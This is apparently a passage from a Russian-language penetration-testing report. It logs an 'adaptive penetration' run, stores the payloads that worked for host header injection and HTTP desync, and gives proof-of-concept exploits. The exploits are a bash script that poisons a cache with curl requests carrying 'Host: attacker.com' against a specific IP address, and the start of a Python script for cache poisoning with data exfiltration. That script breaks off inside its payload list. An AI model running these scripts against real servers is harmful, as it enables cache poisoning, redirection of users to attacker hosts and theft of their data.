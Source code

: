 ### 🕐 **ФАЗА 5: ОБУЧЕНИЕ И АДАПТАЦИЯ (T+1.45s - T+1.58s)**
```
[19:31:46] 🎓 Phase 5: Learning from results for future attacks
[19:31:46] Updating learning database...
[19:31:46] Storing successful patterns...
[19:31:46] 🎉 ADAPTIVE PENETRATION COMPLETE - Maximum chaos achieved!
```

**Данные обучения сохранены:**
```json
{
  "learning_data": {
    "host_header_injection": {
      "success_rate": 0.5,
      "effective_payloads": ["Host: evil.com"],
      "target_behavior": "403_with_processing"
    },
    "http_desync": {
      "success_rate": 0.7,
      "effective_payloads": ["Transfer-Encoding: chunked"],
      "target_behavior": "backend_processing_detected"
    }
  }
}
```

---

## 💥 PROOF OF CONCEPT (PoC) ЭКСПЛУАТАЦИЯ

### 🎯 **PoC #1: CACHE POISONING ATTACK**

#### **Базовая эксплуатация:**
```bash
#!/bin/bash
# Отравление кэша через Host заголовок
echo "🔥 CACHE POISONING ATTACK INITIATED"

# Этап 1: Отравление кэша вредоносным хостом
curl -v -H "Host: attacker.com" http://172.67.68.228/

# Этап 2: Проверка отравления кэша
curl -v -H "Host: legitimate.com" http://172.67.68.228/

# Этап 3: Эксплуатация кэшированного контента
curl -v http://172.67.68.228/ # Возвращает отравленный контент

echo "💀 Cache poisoning successful - users redirected to attacker.com"
```

#### **Продвинутая эксплуатация с перенаправлением:**
```python
#!/usr/bin/env python3
# Продвинутое отравление кэша с эксфильтрацией данных

import requests
import time

def advanced_cache_poisoning(target):
    print("🔥 ADVANCED CACHE POISONING INITIATED")
    
    # Полезные нагрузки для отравления
    poison_payloads = [
        "Host: evil.attacker.com",
```